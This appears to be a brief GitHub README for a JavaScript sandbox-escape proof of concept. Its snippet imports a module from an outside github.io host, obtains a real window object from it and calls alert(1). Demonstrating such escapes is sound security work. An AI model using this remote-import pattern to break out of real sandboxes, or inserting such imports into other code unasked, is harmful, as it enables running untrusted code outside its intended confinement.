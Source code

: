 # sandbox-escape-poc

```javascript
const modulePromise = import ("https://lgfrbcsgo.github.io/sandbox-escape-poc/module.js")

modulePromise.then(module => {
  const window = module.default()
  window.alert(1)
})
```
